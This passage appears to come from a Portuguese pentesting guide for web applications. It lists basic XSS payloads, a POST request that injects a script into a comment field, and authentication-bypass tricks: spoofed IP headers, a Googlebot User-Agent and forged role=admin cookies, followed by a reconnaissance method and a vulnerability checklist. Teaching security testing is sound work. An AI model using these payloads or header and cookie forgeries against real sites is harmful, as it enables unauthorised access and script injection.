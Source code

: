 ### XSS Testing

```javascript
// Payloads XSS
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
javascript:alert('XSS')
<svg onload=alert('XSS')>

// Teste no Repeater
POST /comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded

comment=<script>alert('XSS')</script>
```

### Authentication Bypass

```bash
# Teste de bypass de autenticação
# Modificar headers
X-Forwarded-For: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Originating-IP: 127.0.0.1

# Modificar User-Agent
User-Agent: Googlebot/2.1

# Teste de role escalation
# Modificar cookies/tokens
Cookie: role=admin; user_id=1
```

## Metodologia de Teste

### Reconhecimento

1. **Mapeamento da Aplicação**
   - Spider automático
   - Navegação manual
   - Análise do site map

2. **Análise de Tecnologias**
   - Headers de resposta
   - Comentários HTML
   - Arquivos de configuração

### Teste de Vulnerabilidades

```bash
# Checklist básico
□ SQL Injection
□ XSS (Reflected, Stored, DOM)
□ CSRF
□ Authentication Bypass
□ Authorization Issues
□ File Upload Vulnerabilities
□ Directory Traversal
□ Command Injection
□ XXE (XML External Entity)
□ SSRF (Server-Side Request Forgery)
```
